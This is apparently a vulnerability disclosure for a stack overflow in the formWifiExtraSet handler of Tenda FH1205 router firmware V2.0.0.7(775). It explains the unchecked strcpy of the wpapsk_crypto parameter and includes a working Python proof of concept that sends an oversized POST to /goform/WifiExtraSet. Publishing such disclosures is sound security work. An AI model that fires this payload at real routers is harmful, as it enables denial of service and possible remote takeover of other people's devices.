

# Tenda FH1205 formWifiExtraSet
### Overview
vendor: Tenda

product: FH1205

version: V2.0.0.7(775)

type: Stack Overflow
### Vulnerability Description
Tenda FH1205 V2.0.0.7(775) were discovered to contain a stack overflow via the wpapsk_crypto parameter in the formWifiExtraSet function.
### Vulnerability details
In function formWifiExtraSet line 448, it reads in a user-provided parameter `wpapsk_crypto`, and the variable `tkip_aes_1` is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `tkip_aes`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.



### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/WifiExtraSet"

data = {
    "clientApEn": "1",
    "ssid": "1",
    "security": "wpapsk",
    "wpapsk_crypto": "a" * 4000,
    "wpapsk_key": "06b4be19da289f475aa46a33cb793029d4ab3db7a23ee92382eb0106c72ac7bb"
}

response = requests.post(url, data=data)
print(response.text)
```
